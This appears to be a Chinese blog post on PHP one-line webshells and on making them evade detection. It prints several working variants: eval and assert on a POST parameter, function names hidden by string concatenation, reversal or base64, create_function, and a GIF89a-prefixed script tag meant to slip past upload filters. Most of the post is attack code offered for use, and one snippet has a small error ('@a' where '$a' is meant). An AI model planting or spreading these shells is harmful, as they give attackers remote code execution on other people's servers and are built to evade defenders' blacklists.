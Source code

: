 ```yaml
---
title: 'php一句话木马以及相关免杀'
date: 2024-10-13T15:27:04+08:00
draft: false
slug: 0dixy59j
tags: ["PHP"]
---
```




## 基础

`<?php @eval($_POST['shell']);?>`
- @ 防止报错
- eval() 把字符串当作php代码执行
- `$_POST['xyz']` 以post方式获取名为xyz的变量

使用：访问这句木马所在的php文件，以post方式传入 xyz = phpinfo()
- 网页会（执行`phpinfo()` 这个函数）返回网页php的版本信息

---
## 变形

### assert

```php
<?php
$a = "assert";
$a(@$_POST['shell']);
?>
```

- 区别在于 `assert` 函数在执行给定代码时，要求代码的结果为布尔类型，而 `eval` 函数则可以执行任意有效的 PHP 代码

### 字符变形

使用字符串拼接、大小写混淆、字符串逆序组合而成

```php
<?php
$a="TR"."Es"."sA";  
$b=strtolower($a);  
$c=strrev($b);  
@$c($_POST['shell']);  
?>

# phpinfo();
<?php
$a="of"."NiP"."Hp";  
$b=strtolower($a);  
$c=strrev($b);  
@$c();  
?>
```

- `strtolower()` 是 PHP 中的一个内置函数，用于将字符串转换为小写字母
- `strrev()` 字符串反转

注意，字符变形仅仅用于函数名，不能写成 `$a=")(of"."NiP"."Hp";` ，不能把括号一起放入。

用解析出来的变量替代函数名，本质上只是**字符的替换**，绕过黑名单检测，最后“触发”函数的执行需要依赖括号 `()` 。假如括号也写在字符变形之中，最终由变量替换产生一串 `phpinfo()` 这样的**字符串**，php 显然不会执行这个**字符串**，所以必须把括号放在外面。



### 自定义函数

```php
<?php  
function fun($a){  
    @eval($a);  
}  
@fun($_POST['shell']);  
?>
```


### create_function

```php
<?php 
$fun = create_function('',$_POST['shell']);
$fun();
?>
```
- 用法：`$addFunction = create_function('参数', '函数体');`


### base64_decode 函数

```php
<?php   
$a=base64_decode("YXNzZXJ0");  
@a($_POST['shell']);  
?>
```

`YXNzZXJ0`是assert的base64编码，`base64_decode()`是base64解密函数


### 绕过`<?`

`GIF89a? <script language="php">eval($_REQUEST[123])</script> `
- `GIF89a`: 这是 GIF 图像文件的文件头标识符
- 剩余就是正常的html语言

---
## 短标签

![](../../../../img/Pasted%20image%2020241013143113.png)

short_open_tag 开启以后，可以使用 PHP 的短标签：`<? ?>` 
- 绕过黑名单有 `php`  的情况




